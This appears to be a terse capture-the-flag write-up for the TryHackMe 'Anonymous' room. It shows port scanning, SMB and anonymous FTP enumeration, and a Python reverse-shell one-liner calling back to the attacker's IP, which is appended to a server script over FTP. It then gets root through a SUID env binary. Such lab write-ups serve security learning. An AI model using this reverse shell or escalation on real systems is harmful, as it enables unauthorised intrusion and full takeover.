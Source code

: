 https://tryhackme.com/room/anonymous

```
export IP=10.10.106.120; export MYIP=10.4.18.63
```

# nmap
## init
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
## extended
```

```

# smb
```
$ smbclient -L "\\\\$IP"
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
```

# ftp
`$ ftp "ftp://anonymous@$IP"`
```
ftp> cd scripts
ftp> get clean.sh
ftp> get removed_files.log
ftp> get to_do.txt
```

```
$ echo 'python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.18.63",7780));os.dup2(s
.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'' > shell.sh 

ftp> cd scripts
ftp> append shell.sh clean.sh
```

# low-level shell
```
$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
$ hostname
anonymous
$ sudo -l
[sudo] password for namelessone: 
```

# root
#suid #env
```
$ ls -la /usr/bin/env
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env

$ /usr/bin/env /bin/sh -p
# whoami
root
```

